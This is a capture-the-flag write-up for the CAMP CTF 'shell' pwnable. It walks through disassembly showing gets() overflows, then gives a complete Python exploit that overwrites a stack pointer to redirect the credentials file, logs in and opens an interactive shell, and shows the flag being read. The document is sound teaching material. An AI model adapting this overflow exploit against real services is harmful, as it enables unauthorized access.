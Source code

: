 ### Solved by barrebas

shell was a pwnable from CAMP CTF. We're given a 64-bit ELF binary, which shows the following when executed:

```bash
bas@tritonal:~/bin/ccc/shell$ ./shell
$ help
sh whoami date exit ls help hlep login
$ sh
Permission denied
$ login
Username: AAAA
Password: BBBB
Authentication failed!
$ 
```

Furthermore, the output of `strings ./shell` shows that the binary is looking for `creds.txt`. I placed a file in the same directory with `admin:admin` as sole line and indeed, I could now login:

```bash
$ login
Username: admin
Password: admin
Authenticated!
# sh
$
```

So we'll need to login with valid credentials, which we do not have yet. The rest of the commands are not of interest. Let's have a look at the disassembly, specifically at the part where our input is processed:

```
  400c2a:   movabs rdi,0x400f89
  400c34:   mov    al,0x0
  400c36:   call   400750 <printf@plt>
  ; this is the buffer it's using
  400c3b:   lea    rdi,[rbp-0x80]               
  400c3f:   add    rdi,0x4
  400c46:   mov    DWORD PTR [rbp-0xd0],eax
  400c4c:   mov    al,0x0
  ; here we get the username
  400c4e:   call   400790 <gets@plt>
  400c53:   movabs rdi,0x400f94
  400c5d:   mov    DWORD PTR [rbp-0xd4],eax
  400c63:   mov    al,0x0
  400c65:   call   400750 <printf@plt>
  ; this is the buffer for password
  400c6a:   lea    rdi,[rbp-0x80]
  400c6e:   add    rdi,0x24
  400c75:   mov    DWORD PTR [rbp-0xd8],eax
  400c7b:   mov    al,0x0
  400c7d:   call   400790 <gets@plt>
  400c82:   movabs rsi,0x400f9f
  ; i suppose I can overwrite this value
  400c8c:   mov    rdi,QWORD PTR [rbp-0x18]     ; creds.txt
  400c90:   mov    DWORD PTR [rbp-0xdc],eax
  400c96:   call   4007b0 <fopen@plt>
```

So basically, the calls to `gets()` happen to write to the stack. We're not able to overwrite the saved return address because of the canary, but we can overwrite the pointer at `[rbp-0x18]`, which contains a pointer to the string `creds.txt`. We can overwrite this with a pointer to another string, to make the binary open another file to check our credentials!

The only option that I could find was `/lib64/ld-linux-x86-64.so.2`. The problem is, does this actually contain valid pairs of `user:name`? I grabbed the file via a shell I obtained on bitterman and ran it through strings:

```
bas@tritonal:~/bin/ccc/shell$ strings ./ld.so |grep ":"
|F:m
<:uR
sHu:H9
...snip...
FATAL: kernel too old
Unused direct dependencies:
    Version information:
    %s:
prelink checking: %s
wrong ELF class: ELFCLASS32
undefined symbol: 
relocation processing: %s%s
...snip...
```

Indeed, it does! So the plan is to overwrite the pointer on the stack with the pointer to `/lib64/ld-linux-x86-64.so.2`, then login with one of those combinations of "username" and "password". The exploit:

```python
#!/usr/bin/python
import struct, time
from socket import *

def q(x):
    return struct.pack("<Q", x)

def readtil(delim):
  buf = b''
  while not delim in buf:
      buf += s.recv(1)
  return buf
  
def pwn():
    global s
    s = socket(AF_INET, SOCK_STREAM)
    s.connect(('challs.campctf.ccc.ac', 10117))

    readtil('$')
    s.send('login\n')
    readtil('Username:')
    s.send('AAAA\n')
    readtil('Password:')
    # overwrite rbp-0x18, which used to contain a pointer to "creds.txt"
    # overwrite it with a pointer to 0x400200 ("/lib64/ld-linux-x86-64.so.2")
    # I harvested this file already via one of the other challenges
    s.send("A"*68+q(0x400200)+'\n')
    
    readtil('$')
    s.send('login\n')
    readtil('Username:')
    s.send('relocation processing\n')
    readtil('Password:')
    s.send(' %s%s\n')
    
    import telnetlib
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()
pwn()
```

And it action:

```bash
bas@tritonal:~/bin/ccc/shell$ python ./poc.py 
 Authenticated!
# id
Command not found
# sh
ls
creds.txt
flag.txt
run.sh
shell
cat flag.txt
CAMP15_408eed038796cfca32e2fdb3a8126429
```

